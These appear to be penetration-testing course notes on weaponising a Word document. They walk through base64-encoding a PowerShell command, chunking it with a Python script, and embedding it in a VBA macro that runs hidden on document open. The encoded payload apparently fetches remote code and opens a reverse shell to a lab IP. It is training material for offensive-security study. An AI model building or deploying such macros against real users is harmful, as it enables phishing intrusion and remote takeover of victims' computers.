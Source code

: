 + To base64-encode our command, we can use _pwsh_ on Kali as we did in the Common Web Application Attacks Module, see how to in the following (**Note** `| base64` does not work):
``` PowerShell
$Text = 'STRING_TO_ENCODE';$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text);$EncodedText =[Convert]::ToBase64String($Bytes);$EncodedText
```
+ Can convert a string to base64 on the web with https://www.base64encode.org/ and specify `UTF-16LE` as the Destination Character set 

Converting the contents of a file and writing them:
``` PowerShell
$FilePath = "path\to\your\file.txt"; $OutputPath = "path\to\output\encoded.txt"; [System.IO.File]::WriteAllText($OutputPath, [Convert]::ToBase64String([System.IO.File]::ReadAllBytes($FilePath)))
```

We can use the following Python script to split the base64-encoded string into smaller chunks of 50 characters and concatenate them into the _Str_ variable
+ To do this, we store the PowerShell command in a variable named _str_ and the number of characters for a chunk in _n_
+ We must make sure that the base64-encoded command does not contain any line breaks after we paste it into the script
+ A for-loop iterates over the PowerShell command and prints each chunk in the correct format for our macr
``` Python
str = "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGUAdwA..." # Note this string would be longer for the full encoding 

n = 50

for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
```

Having split the base64-encoded string into smaller chunks, we can update our macro:
``` VBA
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
    Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
        Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
        Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
    ...
        Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA"
        Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
        Str = Str + "A== "

    CreateObject("Wscript.Shell").Run Str
End Sub
```
